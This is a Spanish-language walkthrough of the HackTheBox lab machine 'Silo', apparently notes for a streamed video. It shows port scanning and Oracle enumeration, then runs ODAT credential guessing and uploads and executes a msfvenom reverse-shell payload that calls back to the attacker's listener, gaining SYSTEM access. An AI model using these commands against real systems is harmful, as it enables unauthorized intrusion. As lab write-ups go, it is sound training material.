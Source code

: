 # Silo {-}

## Introduccion {-}

La maquina del dia 11/08/2021 se llama Silo
.

El replay del live se puede ver aqui

[![S4vitaar Silo maquina](https://img.youtube.com/vi/-nb98Pb8oP0/0.jpg)](https://www.youtube.com/watch?v=-nb98Pb8oP0&t=910s)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.82
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.82
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.82 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 10.10.10.82 -oN targeted
```


| Puerto | Servicio   | Que se nos occure?             | Que falta? |
| ------ | ---------- | ------------------------------ | ---------- |
| 80     | http       | Web, fuzzing                   |            |
| 135    | msrpc      |                                |            |
| 139    | netbios    |                                |            |
| 445    | smb        | Null session                   |            |
| 1521   | oracle-tns | Attacke con ODAT               |            |
| 5985   | msrpc      | Puertos por defecto de windows |            |
| 47001  | msrpc      | Puertos por defecto de windows |            |
| 49152  | msrpc      | Puertos por defecto de windows |            |
| 49153  | msrpc      | Puertos por defecto de windows |            |
| 49154  | msrpc      | Puertos por defecto de windows |            |
| 49155  | msrpc      | Puertos por defecto de windows |            |
| 49159  | msrpc      | Puertos por defecto de windows |            |
| 49160  | msrpc      | Puertos por defecto de windows |            |
| 49161  | msrpc      | Puertos por defecto de windows |            |
| 49162  | msrpc      | Puertos por defecto de windows |            |


### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.82
smbclient -L 10.10.10.82 -N
```

Vemos que estamos en frente de una maquina Windows Server 2021 R2 de 64 bit pro que se llama **SILO** en el dominio **SILO** y poco mas

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.82
```

Nada muy interressante aqui


#### Checkear la web {-}

Sabemos que es un IIS 8.5 y asp.net pero poco mas. Vamos a fuzzear routas.


## Vulnerability Assessment {-}

### Oracle ataque con ODAT {-}

#### Installacion de ODAT {-}

```bash
git clone https://github.com/quentinhardy/odat
cd odat
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle
```

Como la maquina victima es de 64 bits, descargamos los client basic sdk y sqlplus de la web de oracle

```bash
mkdir isolation
cd isolation
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm
```

ahora transformamos los `.rpm` en `.deb` y lo installamos

```bash
alien --to-deb *.rpm
dpkg -i *.deb
```

Añadimos las variables de entorno el la .zshrc

```bash
ls /usr/lib/oracle

#Output
21

vi ~/.zshrc

export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```

Checkeamos que todo se aya installado bien

```bash
sqlplus64
python3 odat.py --help
```

#### Ataque con ODAT {-}

1. Buscamos si encontramos SID's

    ```bash
    python3 odat.py sidguesser -s 10.10.10.82
    ```

1. Ataque de typo password guesser

    ```bash
    locate oracle_ | grep "pass"
    cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' | > passwords
    python3 odat.py passwordguesser -s 10.10.10.82 -d XE --accounts-file passwords
    ```

1. Ahora que tenemos un usuario y una contraseña utilizamos el parametro utlfile que permite descargar, uploadear y supprimir ficheros

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o shell.exe
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger"
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe
    ```

1. No tenemos sufficientes privilegios para subir archivos pero ODAT tiene un parametro `--sysdba` que nos puede ayudar

    ```bash
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe --sysdba
    ```

1. Intentamos ganar accesso al systema
## Vuln exploit & Gaining Access {-}

### Ganando accesso con ODAT {-}

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Intentamos ejecutar el exploit con odat

```bash
python3 odat.py --help
python3 odat.py externaltable -s 10.10.10.82 -d XE -U "scott" -P "tiger" --sysdba --exec /Temp shell.exe
```

Ya hemos ganado accesso al systema y ademas somos nt authority\system que significa que no es necessario hacer escalada de privilegios.
